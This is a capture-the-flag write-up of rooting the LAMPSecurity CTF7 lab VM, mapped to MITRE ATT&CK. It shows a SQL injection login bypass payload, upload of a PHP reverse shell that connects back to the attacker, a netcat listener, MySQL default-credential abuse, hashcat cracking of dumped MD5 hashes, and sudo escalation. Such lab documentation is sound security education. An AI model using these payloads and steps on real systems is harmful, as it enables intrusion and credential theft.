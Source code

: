 # **Attack on CTF7 Virtual Machine**

**Daniele Maijnelli**

---


### **Preliminary information**

- The attacking machine is a Kali VM in the same network of the target machine
- The target machine is a VM that can be downloaded at https://www.vulnhub.com/entry/lampsecurity-ctf7,86/
- The **objective** of the attack is: Gaining root privileges on the target machine
- The **threat model** is: The attacker can communicate with the target machine
- The attack will be described in terms of the MITRE ATT&CK framework (Tactics and Techniques)
- This activity is based on the walkthrough that can be found at the following link
https://www.hackingarticles.in/hack-the-lampsecurity-ctf-7-ctf-challenge/

### **Discovery**

The first phase consists in finding information about the target that is useful for performing initial access. For this phase I will use `nmap`, a network exploration tool installed by default on Kali. The first command to execute is `ip addr`, that allows to see the IP address of the attacker machine (`192.168.56.101`) and to obtain the network number of the network in which the two machines are placed (`192.168.56.0/24`). To obtain the IP address of the target machine, I execute `nmap 192.168.56.0/24`, a command that tries to contact all the IP addresses in the specified network number and lists for each of them the reachable port numbers. This command allows to implement the following two techniques.

![First_Commands](Screen1.png)

#### Remote System Discovery 

The IP address of the target machine is `192.168.56.102`. Since the machines are not connected to the Internet, there is no gateway, they can only communicate between themselves.

#### Network Service Discovery

There are several ports reachable, the ones of interest to us are 80, 8080 and 22 (this one used later on), both used for HTTP traffic. By visiting the home page (URL: ```http://192.168.56.102```) on the browser, it appears tat there is nothing useful to continue the attack, so I try contacting the other port number (URL: `http://192.168.56.102:8080`). Here there is a login page that can be abused to gain initial access.

### **Initial Access**

#### Exploit Public-Facing Application
To proceed, since I don't know the credentials, I try several usernames with special characters hoping that the system will leak information about the internal functioning through some error messages. Trying with `'` as username and without inserting a password, the system gives the following error message:

`Invalid query: Yout have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near "'" AND password=md5(") and is_admin=1' at line 1`
`Whole query: select * from users where username='" AND password=md5(") and is_admin=1`

Now I know that the target machine is using MySQL and also the whole query that is being used. To access as admin, I use a SQL injection, that is inserting a username value carefully constructed (the exploit is the HTTP request that answers the form, the payload is the username value `' or 1=1 -- .`) to cause a DBMS to consider it as SQL code inside a query instead of a normal username. For the password, it's possible to leave the field empty, it is not relevant since it will not be considered due to the injected exploit. The exploit works because the query executed in the target machine after the injection becomes `select * from users where username=' or 1=1 `, the remaining part will be considered as a comment due to the `-- .` part of the exploit.

![SQL_Injection](Screen2.png)

### **Persistence**

#### Server Software Component &rarr; Web Shell

To mantain access to the system even across restarts or in the case that the bug causing a SQL injection vulnerability is fixed, we want to upload a web shell on the target machine, the objective is to find a page that allows to upload files. Exploring the website, eventually it will be discovered that such a page is reachable for logged users by clicking on "Manage Offerings" &rarr; "Reading Room".
To continue, click on "Add New" and fill the form (if this was a real attack it could be useful to disguise this action as a legitimate one, by putting a realistic name and description for the uploaded file). The web shell I inject is already available on every Kali machine at the path `/usr/share/webshells/php/php-reverse-shell.php`, the only configuration required is modifying the script of the web shell with the appropriate IP address (the one of the attacker machine) and port number (in this case I use the default one, 1234) that the web shell will try to connect to.
It is important to observe that the web shell installed on the victim machine is not used with HTTP, an HTTP request will trigger the target machine to create a process that will execute a shell and then connect its input and output to a TCP connection (the TCP connection goes from the target machine to `IP_address:port_number` specified in the file of the web shell). Therefore, more precisely the uploaded file is a reverse shell on a web server, not a web shell. 

![Web_Shell](Screen3.png)

### **Discovery**

To execute the web shell, it is necessary to know where the php file has been stored inside the target machine. To perform this step, I will use `dirb`, it is a directory scanner already included in Kali that searches web servers for hidden files, directories, and pages. It works by sending several HTTP requests to the web server and analyzing the responses, each request differs in the third part of the URL, that is selected based on a customizable dictionary (here I use the default one). 

![Dirb_Output](Screen4.png)

#### File And Directory Discovery

By analyzing the output of `dirb https://192.168.56.102` in the browser, it's easy to discover that the directory containing the web shell is `/assets`. 

### **Execution**

#### Command and Scripting Interpreter

In order to connect to the web shell, I will use `netcat`, a tool already installed in Kali used to establish and use a network connection. In this case I use the command `netcat -lvnp 1234`, that spawns a server process that listens on the port 1234. Now it is time to execute the web shell, to do so click on the corresponding php file at the URL `https://192.168.56.102/assets`. To have a more complete shell, I invoke the command `python -c 'import pty;pty.spawn("/bin/bash")'`.

### **Privilege escalation**

#### Valid Accounts &rarr; Default Accounts

Before I used a SQL injection to gain initial access, therefore a DBMS is being executed on the target machine, now the objective is to access the databases inside the target machine with root privileges. I abuse the default credentials composed of **username:root** and **password:*blank***, with the command `mysql -u root`.

![Privilege_Escalation](Screen5.png)

### **Credential Access**

#### Brute Force &rarr; Credentials from Password Stores

Now the objective is to gain guessing material leveraging the root privileges have just been obtained, to do so I invoke `show databases;`, looking at the output, the `website` database contains the table with the hashes of the passwords, to see its tables I invoke `use website;` and then `show tables;`. Finally, to read the content of the target table, invoke `select username,password from users;`. The users are listed in cleartext, the hashes of the passwords are in MD5 format.

![Guessing_Material](Screen6.png)

#### Brute Force &rarr; Password Cracking

Now I use Hashcat (a password cracking tool) to obtain the passwords corresponding to the hashes found in the database. In order to perform this step, I invoke

`hashcat -m 0 -a 0 -o /home/daniele/Documents/passwords.txt /home/daniele/Documents/hashes.txt /usr/share/wordlists/rockyou.txt`

Regarding the command:

- `-o /home/daniele/Documents/passwords.txt` specifies the path of the output file, where the cracked passwords will be written.
- `/home/daniele/Documents/hashes.txt` is the path of the file containing the hashes.
- `/usr/share/wordlists/rockyou.txt` is the path of the password dictionary, this one in particular is already installed in every Kali machine.

![Passwords](Screen7.png)

### **Privilege escalation**

#### Valid Accounts &rarr; Local Accounts

To become root on the target machine, I try the passwords we just found with the corresponding usernames to perform an ssh login with the target machine, hoping in a credential overlap. The result is that **user:brian** and **password:my2cents** are valid. So, the next step is invoking `ssh brian@192.168.56.102` and inserting the password. Then in order to check sudo rights for him invoke `sudo -l`. From the result it appears that he has every sudo right. To complete the attack, I invoke a shell as root on the target machine with `sudo su`.

![Root_Shell](Screen8.png)